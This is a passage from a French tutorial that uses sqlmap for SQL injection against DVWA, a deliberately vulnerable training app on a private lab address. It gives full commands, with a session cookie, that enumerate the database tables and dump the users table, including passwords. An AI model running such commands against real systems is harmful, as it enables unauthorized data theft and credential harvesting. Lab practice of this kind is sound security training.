 Pour déterminer les tables d'une base de données :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \  
  -D dvwa -tables
```

Résultat :  

![20-sqlmap-tables](../images/2020/07/20-sqlmap-tables.png)

Pour extraire la table users :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \
  -D dvwa -T users -dump
```

SQLMap automatise l'extraction des mots de passe. Voici les réponses aux questions pour ce faire :  

![20-sqlmap-reponses-passwords](../images/2020/07/20-sqlmap-reponses-passwords.png)

Résultat :  
